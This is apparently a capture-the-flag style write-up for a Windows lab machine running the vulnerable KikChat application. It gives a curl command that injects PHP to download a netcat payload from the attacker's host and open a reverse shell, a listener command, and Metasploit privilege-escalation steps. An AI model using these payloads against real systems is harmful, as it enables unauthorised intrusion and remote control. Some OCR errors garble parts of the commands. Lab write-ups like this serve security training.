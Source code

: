 ```bash
EDBMACHINE (.218)
```
Operating SystemWindows
Points25
Similar Machine (User)
Similar Machine (Root)
Exploit in Getting User
1. Hidden directory in robots.txt
2. KikChat is vulnerable to https://www.exploit-db.com/exploits/30235
3. Confirm POC - curl -s
http://192.168.31.218/8678576453/rooms/get.php\?name\=info.php\&ROOM\="<?php+phpi
nfo()+?>"
1. allow_url_fopen and allow_url_include are On
2. Upload file to target machine and run - curl -s
http://192.168.XX.218/8678576453/rooms/get.php\?name=shell1.php\&ROOM\="<?php+file
_put_contents('nc.bat',file_get_contens('http://192.168.XX.XX/nc.txt'));system('nc.bat');usl
eep(2000000);system('nc.exe+-vn+192.168.XX.XX+1234+-cmd.exe');+?>"
1. Run listener - nc -nlvp 1234
2. User shell!
Privilege Escalation to Root
1. Use metasploit to create reverse shell in exe
2. Upload it on target machine same process as curl
3. Run execute -f C:/xampplite/htdocs/8678576453/myroom/evil.exe in metasploit
4. execute background and switch to new sessions sessions -i 2
5. Run getuid
6. Run getsystem
7. Run getuid
8. Root shell!